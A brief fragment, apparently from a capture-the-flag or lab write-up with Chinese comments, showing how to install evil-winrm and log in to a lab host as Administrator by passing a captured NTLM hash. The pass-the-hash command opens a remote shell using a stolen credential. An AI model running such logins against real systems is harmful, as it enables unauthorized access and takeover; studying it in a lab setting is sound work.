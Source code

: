 


# 安装evil-winrm ： gem install evil-winrm


# 根据上面的hash，连接admin账号
evil-winrm -i 10.10.193.27 -u Administrator -p aad3b435b51404eeaad3b435b51404ee:0e0363213e37b94221497260b0bcb4fc